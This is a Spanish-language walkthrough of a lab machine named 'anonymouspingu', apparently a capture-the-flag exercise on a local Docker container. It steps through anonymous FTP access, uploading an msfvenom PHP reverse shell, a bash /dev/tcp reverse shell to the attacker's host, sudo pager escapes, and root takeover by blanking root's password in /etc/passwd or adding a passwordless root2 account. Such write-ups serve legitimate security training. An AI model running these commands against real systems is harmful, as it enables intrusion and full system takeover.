 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh anonymouspingu.tar
```

![[Pasted image 20250206154045.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250206154119.png]]

```Bash
ftp 172.17.0.2
```

![[Pasted image 20250206154154.png]]

```Bash
anonymous
```

![[Pasted image 20250206154211.png]]

```Bash
ls
```

![[Pasted image 20250206154233.png]]

```Bash
cd upload
```

![[Pasted image 20250206155319.png]]

Nos metemos en la web:

![[Pasted image 20250206154434.png]]

Creamos payload que vamos a subir:

```Bash
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=4444 -f raw > shell.php
```

![[Pasted image 20250206155103.png]]

```Bash
put shell.php
```

![[Pasted image 20250206155254.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250206155207.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250206155218.png]]

![[Pasted image 20250206155401.png]]

Miramos en la shell:

![[Pasted image 20250206155425.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250206155440.png]]

Miramos la otra shell:

![[Pasted image 20250206155506.png]]

Tratamiento **tty**:

En la shell de nuestro kali:

```Bash
stty size
```

![[Pasted image 20250206165349.png]]

En la shell víctima:

```Bash
script /dev/null -c bash
```

![[Pasted image 20250206165438.png]]

```Bash
cntrl + z
```

![[Pasted image 20250206165508.png]]

```Bash
stty raw -echo;fg
```

![[Pasted image 20250206165522.png]]

```Bash
reset xterm
```

![[Pasted image 20250206165533.png]]

```Bash
export TERM=xterm
```

![[Pasted image 20250206165554.png]]

```Bash
export SHELL=bash
```

![[Pasted image 20250206165609.png]]

```Bash
stty rows 36 columns 150
```

![[Pasted image 20250206165647.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250206155539.png]]

```Bash
sudo -u pingu /usr/bin/man man
```

![[Pasted image 20250206162526.png]]

```Bash
!/bin/bash
```

![[Pasted image 20250206162724.png]]

```Bash
whoami
```

![[Pasted image 20250206162744.png]]

Elevamos privilegios de nuevo:

```Bash
sudo -l
```

![[Pasted image 20250206162834.png]]

```Bash
sudo -u gladys dpkg -l
```

![[Pasted image 20250206163141.png]]

```Bash
!/bin/bash
```

![[Pasted image 20250206163447.png]]

```Bash
whoami
```

![[Pasted image 20250206163513.png]]

Elevamos privilegios de nuevo:

```Bash
sudo -l
```

![[Pasted image 20250206163523.png]]

```Bash
sudo -u root /usr/bin/chown gladys:gladys /etc/
```

![[Pasted image 20250206164638.png]]

```Bash
sed -i 's/root:x:/root::/g' /etc/passwd
```

![[Pasted image 20250206164649.png]]

```Bash
su root
```

![[Pasted image 20250206164702.png]]

```Bash
whoami
```

![[Pasted image 20250206164722.png]]

Otra forma en vez de vaciar la contraseña es creando otro root:

```Bash
echo 'root2::0:0:root:/root:/bin/bash' >> /etc/passwd
```

![[Pasted image 20250206170353.png]]

```Bash
su root2
```

![[Pasted image 20250206170423.png]]

```Bash
whoami
```

![[Pasted image 20250206170448.png]]

